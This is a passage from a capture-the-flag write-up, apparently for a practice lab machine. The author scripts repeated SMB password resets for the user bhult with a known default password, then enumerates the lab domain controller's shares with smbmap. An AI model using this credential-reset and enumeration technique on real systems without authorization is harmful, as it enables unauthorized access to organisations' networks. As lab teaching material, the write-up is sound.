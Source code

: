 ### Enumeration

#### Automation

Now I want to enumerate as bhult, but it turns out that the password resets to the default with the required change flag every minute, so I’ll need to work fast. I’ll write a one-liner that will check the current password, and if it fails, get a new password and change it. Then I can run commands using `$pass` as the password.

My one-liner is:

```

if echo "$pass" | smbclient -L //10.10.10.193 -U bhult 2>/dev/null >/dev/null; then echo "Password $pass still good"; else pass=$(date +%s | md5sum | base64 | head -c7; echo .); (echo 'Fabricorp01'; echo "$pass"; echo "$pass";) | smbpasswd -r 10.10.10.193 -s bhult; echo "password reset to $pass"; fi; [command here]

```

With some white-space added:

```

if echo "$pass" | smbclient -L //10.10.10.193 -U bhult 2>/dev/null >/dev/null; then 
  echo "Password $pass still good"; 
else 
  pass=$(date +%s | md5sum | base64 | head -c7; echo .); 
  (echo 'Fabricorp01'; echo "$pass"; echo "$pass";) | 
    smbpasswd -r 10.10.10.193 -s bhult; 
  echo "password reset to $pass"; 
fi; 
[command here]

```

It first tries to list shares on 10.10.10.193 using `smbclient`, with all the output going to `/dev/nul`. If that’s successful, then the password is still good. Otherwise, it creates a new password, and then changes us using `smbpasswd`. So now I can just up arrow to get this line, and add whatever command I want to run to the end.

#### SMB

The first thing I need to do is list the shares now accessible via bhult. I’m using the one-liner above, but for the sake of this post, I’ll just show just the command run:

```

root@kali# [pass check] smbmap -H 10.10.10.193 -u bhult -p "$pass"
Password changed for user bhult on 10.10.10.193.
password reset to YTQwMTd.
[+] Finding open SMB ports....
[+] User SMB session established on 10.10.10.193...
[+] IP: 10.10.10.193:445        Name: fuse.fabricorp.local                              
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        HP-MFT01                                                NO ACCESS       HP-MFT01
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share 

```
